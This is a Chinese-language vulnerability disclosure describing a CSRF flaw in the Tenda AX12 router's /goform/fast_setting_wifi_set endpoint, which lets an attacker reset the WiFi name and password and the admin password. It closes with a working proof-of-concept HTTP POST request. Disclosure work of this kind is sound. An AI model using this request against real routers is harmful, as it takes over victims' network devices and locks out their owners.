

## 漏洞描述 ##

设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：跨站点请求伪造(CSRF)

攻击效果：设备恢复出厂设置，修改登录后台密码，修改WiFi名称

## 漏洞成因

这个漏洞发生在/goform/fast_setting_wifi_set接口下，这个接口实际上是设备恢复出厂设置后，重新设置WiFi名称，和密码的接口。
我们可以控制传入的web参数，来达到修改WiFi名称，修改密码的效果，并且在这个函数中，由于是重新设置的函数，所以并不会和先前的密码进行对比。

这个接口对应的处理函数sub_4335C0。

先是获取ssid，判断是否为空，然后如果WiFi密码不为空，默认以psk-mixed方式加密，然后将WiFi名，加密方式，密码给到v17，然后调用tapi_set_wificfg，猜测应该是在设置WiFi密码吧，然后以同样的方式设置5g。


然后就是设置管理员密码了，先获取前端传入的参数loginPwd，然后设置到/etc/config/admin文件中，下面是一些无关紧要的if判断，感觉没什么作用，而且管理员密码已经写入到了admin文件中。


## POC

如果在有一次有效cookie的前提下，我们完全可以构造参数，来达到修改WiFi名称密码，以及管理员密码的目的。

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=xxx&WrlPassword=xxx&power=high&loginPwd=(md5(xxx))
```

